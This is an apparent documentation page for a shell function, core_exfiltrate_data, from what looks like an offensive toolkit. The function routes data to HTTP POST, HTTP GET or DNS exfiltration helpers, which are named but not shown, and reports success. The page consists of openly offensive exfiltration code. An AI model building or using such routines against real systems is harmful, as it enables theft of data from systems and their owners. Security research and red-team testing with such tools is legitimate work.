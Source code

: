 # Exfiltrate Data

### Purpose
Routes data to appropriate exfiltration method (HTTP POST/GET or DNS) based on `EXFIL_METHOD` setting. Validates URI is provided, logs attempt, calls method-specific functions, and handles success/failure results.

### Dependencies
| Type | Name | Value |
|------|------|-------|
| Global Variable | `LOG_ENABLED` | `false` |
| Global Variable | `EXFIL_METHOD` | `"none"` |
| Global Variable | `EXFIL_URI` | `""` |
| Global Variable | `EXFIL_TYPE` | `"none"` |
| Global Variable | `CMD_PRINTF` | `"printf"` |
| Function | `core_log_output()` | For logging exfiltration attempts |
| Function | `core_handle_error()` | For error handling |
| Function | `core_exfil_http_post()` | For HTTP POST exfiltration |
| Function | `core_exfil_http_get()` | For HTTP GET exfiltration |
| Function | `core_exfil_dns()` | For DNS exfiltration |
| Function | `core_get_timestamp()` | For timestamp generation |

<details>

```shell
core_exfiltrate_data() {
    local data="$1"
    local result=0
    
    # Log exfiltration attempt
    if [ "$LOG_ENABLED" = true ]; then
        core_log_output "Exfiltrating data via $EXFIL_METHOD" "info" false
    fi
    
    # Check for required URI
    if [ -z "$EXFIL_URI" ]; then
        core_handle_error "No exfiltration URI specified for $EXFIL_METHOD"
            return 1
    fi
    
    # Route to appropriate method
    case "$EXFIL_METHOD" in
        http|https)
            # Determine whether to use POST or GET based on EXFIL_TYPE
            if [ "$EXFIL_TYPE" = "http" ]; then
                core_exfil_http_post "$data"
            else
                core_exfil_http_get "$data"
            fi
            result=$?
            ;;
            
        dns)
            core_exfil_dns "$data"
            result=$?
            ;;
            
        *)
            core_handle_error "Unknown exfiltration method: $EXFIL_METHOD"
            return 1
            ;;
    esac
    
    # Handle result
    if [ $result -ne 0 ]; then
        core_handle_error "Failed to exfiltrate data via $EXFIL_METHOD"
        return 1
    fi
    
    "$CMD_PRINTF"  "[INFO] [%s] Data exfiltrated successfully via %s\n" "$(core_get_timestamp)" "$EXFIL_METHOD"
    return 0
}
```

</details> 